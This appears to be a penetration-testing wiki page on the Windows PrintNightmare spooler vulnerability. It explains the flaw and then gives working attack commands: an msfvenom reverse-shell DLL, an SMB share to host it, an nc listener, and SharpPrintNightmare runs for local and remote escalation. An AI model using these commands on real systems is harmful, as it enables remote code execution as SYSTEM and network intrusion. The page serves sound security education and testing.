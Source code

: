 ```yaml
---
description: CVE-2021-1675 & CVE-2021-34527
---
```


# PrintNightmare

## Theory

### The print spooler

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.

3 RPC protocols are registered by the spooler:

* **MS-RPRN:** Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
* **MS-PAR:** Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
* **MS-PAN:** Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

### PrintNightmare

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.&#x20;

In a detailed blogpost ([here](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)), Cyberwatch describes that the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER\_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` **** in order to bypass the `SeLoadDriverPrivilege` **** privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context.&#x20;

### Constraints

As [@StanHacked](https://twitter.com/StanHacked/) stated on Twitter, there are some constraints depending on the protocol used for the attack.

#### MS-RPRN conditional tree

<figure><img src="../../../.gitbook/assets/PrintNightmare_MS-RPRN.jpeg" alt=""><figcaption><p><a href="https://twitter.com/StanHacked/status/1410929974358515719">https://twitter.com/StanHacked/status/1410929974358515719</a></p></figcaption></figure>

#### MS-PAR conditional tree

<figure><img src="../../../.gitbook/assets/PrintNightmare_MS-PAR.jpeg" alt=""><figcaption><p><a href="https://twitter.com/StanHacked/status/1412060814488608773">https://twitter.com/StanHacked/status/1412060814488608773</a></p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From Unix-like systems, the attack can be conducted as follows

1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
2. Generate a DLL payload: [msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)
3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
4. Exploit PrintNightmare: CVE-2021-1675.py ([MS-RPRN abuse](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare), [MS-PAR abuse](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py))
5. Profit from the DLL being executed by the target

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Check open pipes
<strong>rpcdump.py @192.168.1.16 | egrep 'MS-RPRN|MS-PAR'
</strong><strong>
</strong><strong># Create a DLL payload (reverse shell in this example)
</strong>msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT

# Run the exploit
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'</code></pre>
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the attack can be conducted in an LPE or RCE context with the following PoC: [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare).

{% hint style="warning" %}
_At the time of writing, October 7th 2022, the Windows abuse technique has not been tested by THR's authors._
{% endhint %}

{% code overflow="wrap" %}
```bash
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP' $DOMAIN $USER $PASSWORD
```
{% endcode %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/" %}

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}
